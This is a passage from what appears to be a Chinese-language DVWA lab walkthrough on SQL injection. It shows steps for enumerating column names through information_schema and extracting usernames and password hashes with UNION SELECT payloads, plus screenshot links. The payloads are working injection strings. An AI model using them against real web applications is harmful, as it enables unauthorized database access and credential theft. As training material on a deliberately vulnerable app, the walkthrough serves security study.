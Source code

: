 

**(6)获取字段名**

```sql
1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#
```

![image-20230729134208109](./DVWA.assets/image-20230729134059851.png)



**(7)获取数据**

```sql
1' union select user,password from users#
```

![image-20230729133916170](./DVWA.assets/image-20230729134208109.png)
